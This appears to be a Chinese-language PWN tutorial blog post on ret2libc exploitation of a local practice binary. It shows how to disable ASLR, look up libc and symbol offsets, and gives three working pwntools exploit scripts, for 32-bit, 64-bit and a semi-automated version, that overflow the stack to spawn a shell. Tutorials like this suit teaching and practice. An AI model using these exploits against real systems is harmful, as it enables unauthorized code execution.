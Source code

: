 ```yaml
---
title: ret2libc
subtitle: 标准 ROP 漏洞利用
date: 2023-08-18T10:43:24+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


ret2libc 基于 C 库中的 `system` 函数。该函数会执行传递给它的任何内容，使其成为
最佳攻击目标。libc 中发现的另一个内容是字符串 `/bin/sh` ；如果你将此字符串传递
给 `system` 函数，它会弹出一个 shell。

这就是它的全部内容——将 `/bin/sh` 作为参数传递给 `system` 。

<!--more-->

{{< link href="/pwn_assets/ret2libc.zip" content="ret2libc.zip" title="Download ret2libc.zip" download="ret2libc.zip" card=true >}}

## 0x01 禁用 ASLR

首先，我们将禁用 ASLR。ASLR 随机化 libc 在内存中的位置，这意味着我们无法（无需
其他步骤）计算出 `system` 和 `/bin/sh` 的位置。为了理解一般理论，我们将从禁用它
开始。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## 0x02 手动利用

### 1x01 获取 libc 地址

幸运的是 Linux 有一个名为 `ldd` 的命令用于动态链接。如果我们在编译的 ELF 文件上
运行它，它会告诉我们它使用的库及其地址。

```bash
$ ldd vuln-32
	  linux-gate.so.1 (0xf7eda000)
	  libc.so.6 => /usr/lib32/libc.so.6 (0xf7c00000)
	  /lib/ld-linux.so.2 => /usr/lib/ld-linux.so.2 (0xf7edd000)
```

我们需要 `libc.so.6` ，所以 libc 的地址是 `0xf7c00000` 。

{{<admonition type="info">}}

`libc` 地址以及 `system` 和 `/bin/sh` 的偏移量对你来说可能不同。这不是问题，它只是
意味着你有不同的版本的 `libc` 。

{{</admonition>}}

### 1x02 获取 system() 的地址

为了调用 `system` ，我们肯定需要它在内存中的地址。为此，我们可以使用 `readelf` 命令。

```bash
$ readelf -s /usr/lib32/libc.so.6 | grep system
  3209: 0004f610    63 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

`-s` 参数告诉 `readelf` 查看当前 ELF 文件的符号表，符号表中的信息只包括 **全局变量
和函数名**。这里我们可以发现 `system` 距 `libc` 库的偏移量是 `0x4f610` 。

### 1x03 获取 /bin/sh 的地址

由于 `/bin/sh` 只是一个字符串，因此我们可以在刚刚通过 `ldd` 找到的动态链接库的基础上使用
`strings` 指令。注：当将字符串作为参数传递时，你需要传递指向字符串的 **地址**，而不是字符串
的十六进制表示形式，因为这就是 C 所期望的方式。

```bash
$ strings -a -t x /usr/lib32/libc.so.6 | grep /bin/sh
  1c4dcd /bin/sh
```

`-a` 告诉它扫描整个文件；`-t x` 告诉它以十六进制格式输出偏移量。

### 1x04 32-bit 漏洞利用

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

libc_addr = 0xf7c00000
system_addr = libc_addr + 0x4f610
shell_addr = libc_addr + 0x1c4dcd

payload = b'A' * 76             # Padding 到 EIP
payload += p32(system_addr)     # system() 的地址
payload += p32(0x0)             # 避免异常
payload += p32(shell_addr)      # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

### 1x05 64-bit 漏洞利用

使用链接到 64-bit 程序的 `libc` 重复上述过程。

注：你必须使用 `pop rdi; ret` gadget 将其放入 RDI 寄存器中，而不是在返回地址之后传递参数。

```bash
$ ROPgadget --binary vuln-64 | grep rdi
[...]
0x00000000004011cb : pop rdi ; ret
[...]
```

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

libc_addr = 0x7ffff7c00000
system_addr = libc_addr + 0x4f760
shell_addr = libc_addr + 0x19fe34

POP_RDI, POP_RSI_R15 = 0x4011cb, 0x4011c9

payload = b'A' * 72             # Padding 到 RIP
payload += p64(POP_RDI)         # pop rdi ; ret
payload += p64(shell_addr)      # 传入 /bin/sh 的地址
payload += p64(POP_RSI_R15)     # pop rsi ; pop r15 ; ret
payload += p64(0x0) * 2         # 填充 rsi 和 r15
payload += p64(system_addr)     # 把 system() 的地址传入 RIP

p.sendline(payload)

p.interactive()
```

### 1x06 使用 pwntools 实现半自动

pwntools 拥有大量功能，使这一切变得更加简单。

```python {title="exp.py"}
# 32-bit
from pwn import *

context(os='linux', arch='amd64', log_level='info')

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                                 # 获取程序正在使用的 libc
libc.address = 0xf7c00000                       # 设置 libc 地址

system_addr = libc.sym['system']                # 获取 system() 的地址
shell_addr = next(libc.search(b'/bin/sh'))      # 获取 /bin/sh 的地址

payload = b'A' * 76                             # Padding 到 EIP
payload += p32(system_addr)                     # system() 的地址
payload += p32(0x0)                             # 避免异常
payload += p32(shell_addr)                      # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

64-bit 的半自动脚本本质上是一样的。

{{<admonition type="tip">}}

如果题目提供了 libc ，也可以这样用：

{{< typeit code=python >}}
libc = ELF('libc.so.6')

print(libc.sym['system'])
{{< /typeit >}}

{{</admonition>}}

{{<admonition type="info">}}

pwntools 可以通过其 ROP 功能进一步简化它，但我不会在这里展示它们。

{{</admonition>}}

